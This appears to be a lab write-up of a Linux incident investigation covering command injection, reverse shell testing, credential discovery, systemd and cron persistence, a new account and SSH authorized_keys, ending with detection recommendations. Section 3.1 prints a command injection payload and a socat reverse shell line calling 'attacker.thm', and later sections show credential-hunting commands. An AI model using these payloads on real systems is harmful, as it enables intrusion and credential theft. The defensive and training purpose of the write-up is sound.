# Linux Threat Detection and Incident Investigation

# 1. Scenario Overview

This report documents a Linux security investigation focused on identifying suspicious activity associated with potential system compromise. The analysis examines host-level artifacts, command execution, privilege escalation attempts and persistence mechanisms to reconstruct relevant post-compromise activity.

The investigation follows a threat detection approach, correlating audit records, authentication logs, application behavior and system configuration artifacts to identify potentially unauthorized actions and assess their security implications.

The scope of the investigation includes:

- **Suspicious Command Execution:** identifying potential command injection and activity consistent with reverse shell execution.
- **Privilege Escalation:** investigating credential discovery behavior, attempts to obtain elevated privileges and potential exposure of sensitive configuration data.
- **Startup Persistence:** examining systemd service definitions and scheduled tasks for mechanisms that could enable continued execution.
- **Account Persistence:** investigating unauthorized account creation and modifications to SSH authorized keys.
- **Evidence Correlation:** analyzing related events and artifacts to establish an activity timeline and distinguish confirmed observations from investigative hypotheses.

The primary objective is to identify relevant indicators of compromise, assess potential weaknesses in system security and develop actionable recommendations to improve detection and prevention capabilities.

---

# 2. Investigation Objectives

The objective of this investigation is to identify, analyze and document suspicious activity on a Linux system by examining system logs, command execution artifacts, authentication records and persistence-related configurations.

The investigation aims to achieve the following objectives:

- **Detect Suspicious Command Execution:** identify potential command injection and activity consistent with reverse shell execution.
- **Investigate Privilege Escalation:** analyze credential discovery attempts, commands used to obtain elevated privileges and potential exposure of sensitive information.
- **Identify Persistence Mechanisms:** examine systemd services and scheduled tasks for configurations that could enable unauthorized execution across system restarts.
- **Investigate Account-Based Persistence:** review account creation events, privileged group membership and SSH authorized key modifications for indicators of potentially unauthorized access.
- **Correlate Security Evidence:** compare relevant audit events, authentication records and system artifacts to establish a consistent timeline of suspicious activity.
- **Assess Security Impact:** evaluate the potential risks associated with the observed behaviors while distinguishing confirmed evidence from unverified hypotheses.
- **Recommend Defensive Controls:** develop practical mitigation and monitoring recommendations to reduce the likelihood of similar activity and improve detection capabilities.

The investigation prioritizes evidence-based conclusions. Each finding should be supported by observable artifacts wherever possible and limitations in the available evidence should be explicitly documented.

---

# 3. Evidence Analysis

This section documents the evidence collected during the investigation of suspicious Linux activity. The analysis focuses on command execution, potential privilege escalation, startup persistence, account persistence and broader threat detection considerations.

The observations are based on application behavior, Linux audit records, authentication logs and system configuration artifacts. Conclusions are limited to what the available evidence supports.

---

## 3.1 Reverse Shell Detection

The investigation examined application behavior and Linux audit records to identify potential command injection and activity consistent with reverse shell execution.

---

### 3.1.1. Command Injection Analysis

The application was tested using the following input:

```bash
127.0.0.1 && whoami
```

The application returned the username `svctrypingme`, indicating that the appended command was executed within the application's execution context. This behavior is consistent with a potential command injection vulnerability, in which user-controlled input is interpreted as part of an operating system command.



---

### 3.1.2. Reverse Shell Assessment

A `socat` reverse shell command was subsequently tested in the controlled environment:

```bash
127.0.0.1 && socat TCP:attacker.thm:1337 EXEC:sh
```

The test was used to assess the potential impact of the suspected command injection vulnerability. The command attempts to establish a TCP connection to a remote host and attach a shell to that connection.



---

### 3.1.3. Audit Log Analysis

The audit log at `/home/ubuntu/scenario/audit.log` was examined for events associated with suspicious command execution and possible reverse shell activity.

The investigation identified activity associated with the IP address `10.14.105.255`. This address was retained as an investigative indicator. Its precise role in the suspected activity requires correlation with the relevant process execution records and, where available, network telemetry.





---

### 3.1.3. Technical Analysis

The execution of an appended shell command indicates that the application may be vulnerable to command injection. If exploited, this weakness could allow an attacker to execute operating system commands with the privileges of the application process.

The reverse shell test demonstrates the potential impact of this behavior within the controlled environment. However, the test alone does not establish that an external attacker successfully obtained persistent or interactive access to the system.

The available audit evidence warrants further investigation of the suspicious activity associated with `10.14.105.255`. The exact connection details and extent of any compromise should not be considered confirmed without corroborating evidence.

---

## 3.2 Privilege Escalation

The investigation examined command history and audit records for potential credential discovery, access to sensitive configuration files and attempts to obtain elevated privileges.

---

### 3.2.1. Credential Discovery

The following command was used to search for occurrences of the keyword `pass`:

```bash
grep -iR pass
```

This search can help identify files or content potentially related to credentials. However, the command alone does not demonstrate that a valid password was discovered or successfully used.



---

### 3.2.2. Attempt to Switch to the Root Account

The command `su root` was identified during the investigation as an attempt to switch to the root account.



The presence of this command indicates an attempt to obtain a root shell. The available evidence does not independently establish whether authentication succeeded or whether elevated access was obtained.

---

### 3.2.3. Sensitive Configuration File Access

Audit records from `/home/ubuntu/scenario/audit.log` were searched for references to environment configuration files.

An event recorded at `2025-09-23 14:53:44.238` contained the following process information:

```text
proctitle=cat .env.local
argc=2
a0=cat
a1=.env.local
```

This evidence indicates that the `cat .env.local` command was executed. Environment files can contain sensitive configuration values, including credentials, API keys and connection strings.


The execution event does not, by itself, establish the contents of the file or prove that a particular credential was successfully recovered. Any potentially exposed credentials should be treated as sensitive and excluded from public reporting.

---

### 3.2.4. Technical Analysis

The investigation identified credential discovery activity, an attempt to switch to the root account and access to an environment configuration file. These behaviors are relevant to privilege escalation investigations because exposed credentials may enable unauthorized access to privileged accounts.

However, a successful privilege escalation has not been established by the evidence described here. Confirmation would require additional records, such as successful authentication events, changes in effective user identity or audit events demonstrating privileged command execution.

---

## 3.3 Startup Persistence

The investigation examined systemd service configuration and cron entries for mechanisms that could allow suspicious programs to execute automatically or persist across system restarts.

---

### 3.3.1. systemd Service Investigation

Audit records were searched for activity involving `/etc/systemd`. An event recorded at `2025-09-23 17:06:42.860`, with event ID `834`, contained the following process information:

```text
proctitle=nano /etc/systemd/system/tux.service
```

This event indicates that the `tux.service` file was opened using a text editor.



The service configuration was then examined. Its `[Service]` section contained the following directive:

```ini
ExecStart=/var/lib/misc/tux
```

This directive specifies `/var/lib/misc/tux` as the executable to be launched when the service starts.



The service definition and associated audit event are relevant persistence indicators. However, the available evidence does not independently establish whether the service was enabled, started or executed automatically during a reboot.

---

### 3.3.2. Cron Persistence Investigation

The investigation also examined cron-related audit records and the root user's scheduled tasks.

The root crontab contained the following entry:

```cron
@reboot /usr/sbin/phoenix
```

The `@reboot` directive configures the associated command to run when the cron service processes startup tasks after a system reboot.




This configuration is a significant persistence indicator because it schedules an executable to run automatically during startup. The presence of the entry does not prove that a reboot occurred during the investigation or that the executable successfully ran at startup.

---

### 3.3.3. Technical Analysis

The investigation identified two startup-related artifacts:

- A systemd service configuration referencing `/var/lib/misc/tux`.
- A root crontab entry configuring `/usr/sbin/phoenix` to execute at reboot.

Both artifacts warrant further investigation to determine their legitimacy, origin, and operational status. Validation should include examining file ownership and permissions, reviewing executable metadata, checking service enablement and correlating configuration changes with process execution records.

---

## 3.4 Account Persistence

The investigation examined authentication logs and audit records for evidence of account creation and changes involving SSH authorized keys.

---

### 3.4.1. User Account Creation

Authentication log records were searched for `useradd` activity. The investigation identified the username `Koichi` in connection with account creation activity.



The account was identified during the investigation as being associated with potential persistence activity. Lab observations also indicated a relationship with the `sudo` group; however, group membership should be independently verified using account records or explicit group-change events before being treated as confirmed evidence in the report.

The creation of an account is not inherently malicious. Its legitimacy depends on factors such as authorization, account ownership, creation time, group membership and subsequent login activity.

---

### 3.4.2. SSH Authorized Keys Investigation

Audit records were searched for activity involving SSH authorized keys. The investigation identified a reference to:

```text
/root/.ssh/authorized_keys
```



The `authorized_keys` file can define public keys permitted to authenticate to an SSH account. Unauthorized modifications to this file may allow an attacker to maintain access without repeatedly supplying an account password.

The file reference alone does not establish that a key was added, that an existing key was malicious or that key-based authentication was successfully used. Further investigation would be required to establish the exact change and its impact.

---

### 3.4.3. Technical Analysis

The account creation event and the reference to `/root/.ssh/authorized_keys` are relevant to an investigation of account-based persistence.

To validate the suspected activity, an analyst should correlate account creation timestamps, privileged group membership, file modification records, SSH authentication events and any available baseline of authorized keys. This would help distinguish legitimate administration from unauthorized changes.

--

## 3.5 Targeted Attacks and Threat Detection Recap

The investigation illustrates how multiple host-level artifacts can contribute to the detection of suspicious activity on Linux systems. Command execution, credential discovery, privileged account access, startup configuration changes and SSH key management should be considered together rather than evaluated in isolation.

Linux infrastructure can be targeted as a primary objective or compromised as part of a broader intrusion affecting a mixed operating system environment. Servers, cloud workloads and virtualization hosts may provide access to sensitive information or critical services, making effective Linux monitoring an important component of an organization's security strategy.

The investigation highlights several defensive priorities:

- Monitor application processes for unexpected shell execution and suspicious child processes.
- Correlate authentication events with changes in effective user identity and privileged command execution.
- Monitor systemd service files, cron configuration and executable paths for unexpected changes.
- Alert on new accounts, unexpected privileged group membership and modifications to SSH authorized keys.
- Centralize audit and authentication logs to support event correlation and incident reconstruction.
- Preserve relevant evidence before making changes to a potentially compromised system.

The observations documented in this section provide the technical basis for the consolidated indicators, findings and mitigation recommendations presented in the following sections.


